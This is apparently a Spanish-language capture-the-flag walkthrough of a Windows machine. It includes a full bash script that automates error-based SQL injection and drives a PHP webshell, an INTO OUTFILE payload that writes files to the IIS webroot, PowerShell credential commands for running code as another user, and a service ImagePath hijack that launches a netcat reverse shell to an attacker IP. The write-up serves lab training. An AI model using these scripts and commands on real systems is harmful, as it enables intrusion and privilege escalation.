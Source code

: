 ---------
- Tags: #sqli #bash-scripting #windows #winpeas #image-path #hijacking #conptyshell #scriptblocks
-----------
## Tecnicas utilizadas

- SQL Injection [SQLI] - Error Based  
- Advanced Bash Scripting (EXTRA)  
- SQLI to RCE (Into Outfile - PHP File Creation)  
- ConPtyShell (Fully Interactive Reverse Shell for Windows)  
- Playing with ScriptBlocks and PSCredential to execute commands as another user  
- AppLocker Bypass  
- WinPEAS Enumeration  
- Service ImagePath Hijacking (Privilege Escalation)

## Procedimiento

![[Pasted image 20230613114216.png]]


Comenzamos con el escaneo en nmap y nos muestra los siguientes puertos:

![[Pasted image 20230613152008.png]]

Haciendo un whatweb para ver las tecnologias que corren por detras en la pagina web vemos lo siguiente:

![[Pasted image 20230613152029.png]]

En la pagina principal, no vemos gran cosa, pero hay una boton que nos manda a la ruta de *admin*. Si la visitamos, vemos que no podemos visualizar nada porque nos pide una cabecera que no sabemos cual es:

![[Pasted image 20230613152120.png]]

Podemos hacer brute force a la cabecera con **Wfuzz** y usando un diccionario del seclists que contenga cabeceras comunes:

![[Pasted image 20230613152705.png]]

Vemos que no sucede nada con ninguna cabecera, todas nos regresan los mismos caracteres, las mismas palabras y el mismo codigo de estado, sin embargo, el el codigo fuente de la pagina vemos que hay una *IP*. Si intentamos fuzzear las cabeceras pasando como argumento esa *IP* vemos que hay una que si regresa algo.

Con burpsuite, podemos implementar una nueva cabecera e ir a la pagina para ver el contenido de la pagina. En la pagina, hay un *browser*, si colocamos una *''*  vemos que nos lanza un error de syntaxys de SQL. Podemos aprovecharnos de SQLi para dumpear la base de datos por la informacion que nos interese.

--------------------------------
#### SQL Injection [SQLI] - Error Based  

Podemos automatizar la inyecion sql en **bash** o **python**, de modo de ejemplo se usara a continuacion **bash**:
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n${yellowColour}[!]${endColour}${redColour} Saliendo...!${endColour}"
	exit 1
}

# ctrl + c
trap ctrl_c INT

# Variables globares

# Paleta de colores
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

function makeQuery(){
	myQuery="$1"
	echo; curl -s -X POST "http://<ip>/<path>.php" -H "X-forwarded-For: ip" -d "productName=$myQuery" | awk '/<tbody>/,/<\/tbody>/' | html2text | sed 's/1|//' | sed 's/| 3| 4| 5| 6//'
}

function makeInteractive(){
	while [ "$myQuery" != "exit" ]; do
		echo -ne "${yellowColour}~${endColour} ${grayColou}Injection >${endColour} " && read -r myQuery
		echo; curl -s -X POST "http://<ip>/<path>.php" -H "X-forwarded-For: ip" -d "productName=$myQuery" | awk '/<tbody>/,/<\/tbody>/' | html2text | sed 's/1|//' | sed 's/| 3| 4| 5| 6//'
	done
}

function rceInteractive(){
	while [ "$myCommand" != "exit" ]; do
		echo -ne "${yellowColour}~${endColour} ${grayColou}RCE >${endColour} " && read -r myCommand
		echo; curl -s -X GET -G "http://<ip>/pwned.php" --data-urlencode "cmd=$myCommand"
	done
}

function helpPanel(){
	echo -e "\n${yellowColour}[?]${endColour} ${grayColour}Uso:${endColour}\n"
	echo -e "\t${turquoiseColour}q)${endColour} ${grayColour}Query a probar${endColour} ${purpleColor}[Ej. -q \"' union select 1,2,3,4,5,6-- -\"]${endColour}"
	echo -e "\t${turquoiseColour}i)${endColour} ${grayColour}Modo interactivo${endColour}"
	echo -e "\t${turquoiseColour}e)${endColour} ${grayColour}Modo interactivo[RCE]${endColour}"
	echo -e "\t${turquoiseColour}h)${endColour} ${grayColour}Mostrar este panel de ayuda${endColour}"
	exit 1
}

declare -i parameter_counter=0 
while getopts "q:ieh" arg; do
	case $arg in
		q) myQuery=$OPTARG;let parameter_counter+=1;;
		i) let parameter_counter+=2;;
		e) let parameter_counter+=3;;
		h) helpPanel;;
	esac
done

#./sqli.sh -q "' union select 1,2,3,4,5,6-- -"

if [ $parameter_counter -eq 1 ]; then
	makeQuery "$myQuery"
elif [ $parameter_counter -eq 2 ]; then
	makeInteractive
elif [ $parameter_counter -eq 3 ]; then
	rceInteractive
else
	helpPanel
fi

```
-------
#### SQLI to RCE (Into Outfile - PHP File Creation)  

Encontramos hashes en la base de datos de mysql de algunos usuarios, podemos intentar creakearlos con **crackstations** de manera offline. Podemos ver algunas contraseñas, pero no las podemos utilizar para nada, ya que los servicios de **smb** y **evil-winrm** no estan corriendo actualmente en la maquina. Lo que podemos interntar es cargar un archivo malicioso a la ruta del *IIS* para establecer una *webshell*. La ruta seria la siguiente:

`C:\inetpub\wwwroot\prueba.txt`

La menera de introduccir un archivo a la ruta del *IIS* seria la siguiente:

`' union select 1,"probando",2,3,4,5,6 into outfile "C:\\inetpub\\wwwroot\\prueba.txt"-- -`

----------------
#### ConPtyShell (Fully Interactive Reverse Shell for Windows) 

Podemos entablarnos una conexion por tcp por el repositorio de *AntonioCoco/ConPtyShell* Tenemos que descargar el script que nos señala y procesarlo en la maquina victima. Podemos ahorrarnos el importarlo a la maquina y despues invocarlo sin el script llamamos a la misma funcion.

--------------
#### Playing with ScriptBlocks and PSCredential to execute commands as another user

A continuacion, podemos hacer lo siguiente:

1. Crear un usuario -> $user = 'fidelity\\hector'
2. Crear una contraseña -> $password = ConvertTo-SecureString 'Password' -AsPlainText -Force
3. Crear una credencial -> $cred = New-Object System.Management.Automation.PScredential $user, $password

Ya con esto podemos ejecutar comandos como *hector* de la siguiente manera:

`invoke-command -ComputerName localhost -Cred $cred -ScriptBlock { $command }`

------------
#### AppLocker Bypass  

Podemos abusar del listado que nos brinda el repositorio para subir un archivo y que no nos lo impidan. Aqui mismo podemos subir *netcat* y mandarnos una revershell a nuestra maquina como el usuario *Hector*.

-------------
#### WinPEAS Enumeration 

Subimos el binario de WinPeas en busca de vias potenciales de escalar nuestro privilegio. Y encontramos que tenemos **FULL CONTROL** sobre todos los servicios, esto quiere decir que podemos parar e iniciar servicios, asi como manipular sus parametros.

--------------
#### Service ImagePath Hijacking (Privilege Escalation)

Para listar los parametros del servicio, podemos hacer el siguiente comando

`reg query HKLM\System\CurrentControlSet\Services\<services>`

Para manipuar algun atributo del servicio podemos hacer

`reg add HKLM\System\CurrentControlSet\Services\<services> /t REG_EXPAND_SZ /v <atributo> /d "<route-netcat> -e cmd <ip> <port> " /f`

y posteriormente:

`sc start <service>`











